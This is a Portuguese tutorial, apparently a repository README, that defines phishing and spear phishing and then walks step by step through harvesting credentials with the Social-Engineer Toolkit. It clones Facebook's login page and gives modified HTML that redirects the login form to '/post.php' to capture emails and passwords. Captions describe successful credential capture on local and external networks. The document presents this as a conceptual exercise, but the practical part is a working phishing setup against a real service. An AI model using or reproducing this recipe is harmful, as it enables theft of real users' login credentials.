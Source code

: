 
# O que é *Phishing*?

De acordo com a Cybersecurity and Infrastructure Security Agency (CISA):
> "Phishing é um tipo de ataque de engenharia social frequentemente usado para roubar dados de usuário, incluindo credenciais de login e números de cartão de crédito. Isso ocorre quando um atacante, se passando por uma entidade confiável, engana a vítima para abrir um email, mensagem instantânea ou mensagem de texto mal-intencionada que parece legítima. O objetivo é enganar a vítima para revelar informações sensíveis ou clicar em um link mal-intencionado que instala malware ou a direciona para um site fraudulento."

No geral, *phishing* é um tipo de ataque que se enquadra como engenharia social, no qual se visa roubar dados como credenciais. Este ataque pode ocorrer por diversos meios, como SMS, e-mail, links maliciosos, etc.

## Spear Phishing

De acordo com a Kaspersky:
> "Enquanto phishing é um termo geral para ataques cibernéticos realizados por e-mail, SMS ou chamadas telefônicas, alguns podem se perguntar como são chamados ataques de phishing direcionados. A resposta é spear phishing. Em termos mais simples, trata-se de ataques cibernéticos altamente personalizados que visam indivíduos ou empresas específicas. Normalmente, esses ataques são realizados por meio de e-mails de spear phishing que parecem legítimos para o destinatário e os incentivam a compartilhar detalhes confidenciais com o invasor. Embora o objetivo dos ataques de spear phishing geralmente seja roubar informações como credenciais de login ou informações de cartão de crédito, alguns são projetados para infectar dispositivos com malware. Frequentemente, hackers e hacktivistas patrocinados pelo governo são os perpetradores de golpes de spear phishing. No entanto, criminosos cibernéticos individuais também realizam esses ataques com a intenção de perpetrar roubo de identidade ou fraude financeira, manipulando preços de ações, cometendo espionagem ou roubando dados confidenciais para revendê-los a governos, empresas privadas ou outros indivíduos interessados."

## Ferramentas para Testes de Phishing

Para testes em escala, vale ressaltar que existem ferramentas mais apropriadas como o *Gophish*, *Evilginx2*, *HiddenEye*, *King Phisher*, etc. Mas para propósitos conceituais, iremos usar a ferramenta SET (Social-Engineer Toolkit) que já vem disponível em distros como o Kali Linux.

### Ferramentas Utilizadas

- **Kali Linux**
- **SET (Social-Engineer Toolkit)**

### Configurando o Phishing no Kali

1. Acessar o Kali Linux
2. Executar: `sudo su`
3. Iniciar o SET: `setoolkit`
4. Selecionar: "Social-Engineering Attacks"
5. Escolher: "Website Attack Vectors"
6. Selecionar: "Credential Harvester Attack Method"
7. Optar por: "Site Cloner"
8. Inserir o IP local (onde as informações devem ser enviadas)
9. Fornecer a URL do site a ser clonado

![Acesso ao Kali Linux](images/foto_1.png)
*Figura 1: Acesso ao Kali Linux*

![Iniciando o SET](images/foto_2.png)
*Figura 2: Iniciando o Social-Engineer Toolkit*

![Selecionando o tipo de ataque](images/foto_3.png)
*Figura 3: Selecionando o tipo de ataque*

![Escolhendo o vetor de ataque](images/foto_4.png)
*Figura 4: Escolhendo o vetor de ataque*

![Selecionando o método de coleta de credenciais](images/foto_5.png)
*Figura 5: Selecionando o método de coleta de credenciais*

![Optando pelo clonador de site](images/foto_6.png)
*Figura 6: Optando pelo clonador de site*

![Inserindo o IP local](images/foto_7.png)
*Figura 7: Inserindo o IP local*

![Fornecendo a URL do site a ser clonado](images/foto_8.png)
*Figura 8: Fornecendo a URL do site a ser clonado*

## Troubleshooting

O código fonte da página do Facebook é protegido, o que significa que ele não é montado como um único arquivo HTML, mas sim com vários scripts. Assim, nossa ferramenta não consegue clonar o código fonte da página de login do Facebook.

![Erro ao clonar o Facebook](images/foto_9.png)
*Figura 9: Erro ao tentar clonar a página do Facebook*

![Código fonte protegido](images/foto_10.png)
*Figura 10: Código fonte protegido do Facebook*

Uma solução é criarmos nosso próprio template. Para isso, podemos usar a extensão SingleFile (Firefox).

![Extensão SingleFile](images/foto_11.png)
*Figura 11: Extensão SingleFile no Firefox*

![Salvando a página com SingleFile](images/foto_12.png)
*Figura 12: Salvando a página com SingleFile*

Após isso, precisamos modificar algumas partes do código para que fiquem compatíveis com o SET.

![Modificações no código](images/foto_13.png)
*Figura 13: Modificações necessárias no código*

**Código original:**
```html
<form class=_9vtf data-testid=royal_login_form action="/login/?privacy_mutation_token=eyJ0eXBlIjowLCJjcmVhdGlvbl90aW1lIjoxNzIxMzM2NDE4LCJjYWxsc2l0ZV9pZCI6MzgxMjI5MDc5NTc1OTQ2fQ%3D%3D&amp;next" method=post id=u_0_2_fU><div><div class=_6lux><input type=text class="inputtext _55r1 _6luy" name=email id=email data-testid=royal_email placeholder="Email or phone number" autofocus aria-label="Email or phone number" value></div><div class=_6lux><div class="_6luy _55r1 _1kbt" id=passContainer><input type=password class="inputtext _55r1 _6luy _9npi" name=pass id=pass data-testid=royal_pass placeholder=Password aria-label=Password><div class="_9ls7 hidden_elem sf-hidden" id=u_0_3_QO></div></div></div></div><div class=_6ltg><button value=1 class="_42ft _4jy0 _6lth _4jy6 _4jy1 selected _51sy" name=login data-testid=royal_login_button type=submit id=u_0_5_Lx>Log In</button></div><div class=_6ltj><a href="https://www.facebook.com/recover/initiate/?privacy_mutation_token=eyJ0eXBlIjowLCJjcmVhdGlvbl90aW1lIjoxNzIxMzM2NDE4LCJjYWxsc2l0ZV9pZCI6MzgxMjI5MDc5NTc1OTQ2fQ%3D%3D&amp;ars=facebook_login&amp;next">Forgot password?</a></div><div class=_8icz></div><div class=_6ltg><a role=button class="_42ft _4jy0 _6lti _4jy6 _4jy2 selected _51sy" href=# ajaxify=/reg/spotlight/ id=u_0_0_6w data-testid=open-registration-form-button rel=async>Create new account</a></div></form>
```

**Código modificado:**
```html
<form class=_9vtf data-testid=royal_login_form action="/post.php" method=post id=u_0_2_fU><div><div class=_6lux><input type=text class="inputtext _55r1 _6luy" name=email id=email data-testid=royal_email placeholder="Email or phone number" autofocus aria-label="Email or phone number" value></div><div class=_6lux><div class="_6luy _55r1 _1kbt" id=passContainer><input type=password class="inputtext _55r1 _6luy _9npi" name=pass id=pass data-testid=royal_pass placeholder=Password aria-label=Password><div class="_9ls7 hidden_elem sf-hidden" id=u_0_3_QO></div></div></div></div><div class=_6ltg><button value=1 class="_42ft _4jy0 _6lth _4jy6 _4jy1 selected _51sy" name=login data-testid=royal_login_button type=submit id=u_0_5_Lx>Log In</button></div><div class=_6ltj><a href="#">Forgot password?</a></div><div class=_8icz></div><div class=_6ltg><a role=button class="_42ft _4jy0 _6lti _4jy6 _4jy2 selected _51sy" href=# id=u_0_0_6w data-testid=open-registration-form-button>Create new account</a></div></form>
```

Agora devemos selecionar a opção 3 "Custom import" (também precisamos salvar o template como "index.html" dentro do diretório que iremos especificar ao SET).

![Selecionando Custom Import](images/foto_14.png)
*Figura 14: Selecionando a opção Custom Import*

![Especificando o diretório](images/foto_15.png)
*Figura 15: Especificando o diretório do template*

![Confirmação do template](images/foto_16.png)
*Figura 16: Confirmação do template carregado*

![Página clonada em execução](images/foto_18.png)
*Figura 17: Página clonada em execução*

![Captura de credenciais](images/foto_19.png)
*Figura 18: Captura de credenciais bem-sucedida*

![Visualização das credenciais capturadas](images/foto_20.png)
*Figura 19: Visualização das credenciais capturadas*

Foram efetuados testes tanto na rede local quanto em rede externa. 
Vale ressaltar que a eficácia de phishings e engenharia social está ligada à quantidade de informações disponíveis, então também podemos associar a OSINT (Open Source Intelligence).

Fontes:

[Kaspersky - Spear Phishing](https://www.kaspersky.com.br/resource-center/definitions/spear-phishing)
[CISA - Avoiding Social Engineering and Phishing Attacks](https://www.cisa.gov/news-events/news/avoiding-social-engineering-and-phishing-attacks)

